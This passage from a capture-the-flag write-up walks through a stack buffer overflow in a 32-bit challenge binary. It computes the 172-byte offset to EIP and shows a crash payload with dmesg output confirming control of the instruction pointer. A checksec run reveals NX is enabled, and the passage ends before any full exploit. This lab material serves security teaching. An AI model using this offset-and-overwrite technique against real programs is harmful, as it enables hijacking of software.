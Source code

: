 All variables have its own size, in this case is easy to know what is the size of this variable just by converting the `0xa8` to decimal that is 168. Ok with 168 bytes we fully fill the variable, now we have to replace the stack things until arrive to EIP and take controll of the program. the assembly already told us that we have `0xa8` bytes until we arrive to `EBP` ok, in this arch this register has 4 bytes, so lets add it to our number and we have 172.

Let's test?

```bash
# here we will add the permission to execute the program
reisraff@3dbbde46a935:~/workdir/challs/port-65144$ chmod +x port-65144

# here we understan how is supposed to be the input we will give to the program
reisraff@3dbbde46a935:~/workdir/challs/port-65144$ ./port-65144
Enter your buffer: asdf
not this time


# here we send the payload with 172 charactes "A" and 4 "B" and we see that the message change to "Segmentation fault (core dumped)"
reisraff@3dbbde46a935:~/workdir/challs/port-65144$ echo $(python3 -c "print('A' * 172)")BBBB | ./port-65144
Segmentation fault (core dumped)

# and here we can check the segfault
reisraff@3dbbde46a935:~/workdir/challs/port-65144$ dmesg | tail -n 1
[39206.428987] port-65144[5871]: segfault at 42424242 ip 0000000042424242 sp 00000000ffba4d50 error 14 in libc-2.30.so[f7dc5000+1d000]
```

This last message says us that the `IP` or `EIP` had value of `0000000042424242` and the segfault was in this address. If we see the <a href="https://www.ascii-code.com/" target="_blank">ASCII Table</a> we can confirm that the number `0x42` (hexadecimal) is the same as "B", knowing it, and remembering we sent 4 "B"s and the IP is `0000000042424242` 4 entries of 42.... hmm.... gotcha! We can overwrite the `EIP`.

Now we have it, let's see what we can do with this binary:

```bash
reisraff@3dbbde46a935:~/workdir/challs/port-65144$ checksec port-65144
[*] '/home/reisraff/workdir/challs/port-65144/port-65144'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
reisraff@3dbbde46a935:~/workdir/challs/port-65144$
```

Not that easy, we have some <a href="https://en.wikipedia.org/wiki/Stack_buffer_overflow#Protection_schemes" target="_blank">properties of security</a> enabled in this binary, the one that will make it more dificult is the <a href="https://en.wikipedia.org/wiki/NX_bit" target="_blank">NX</a> "no execute stack". With this we can't simple add malicious code into our payload and point to it address, so we have to read the code a little bit more, but wait... I remember that we had something `flag.txt` and the `open` function, may we could point to it...
